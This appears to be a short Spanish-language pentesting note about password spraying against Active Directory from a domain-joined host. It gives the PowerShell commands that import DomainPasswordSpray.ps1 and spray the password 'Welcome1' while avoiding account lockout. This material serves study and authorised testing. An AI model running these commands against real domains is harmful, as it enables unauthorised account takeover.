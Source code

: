 Si estamos autenticados en un host domain-joined, podemos utilizar **DomainPasswordSpray.ps1**

De manera automática va a generar una lista de usuarios del AD, ver las políticas de pass y quitar los users que están a un paso de quedar bloqueados.

#### Powershell:

    Import-Module .\DomainPasswordSpray.ps1
    Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue


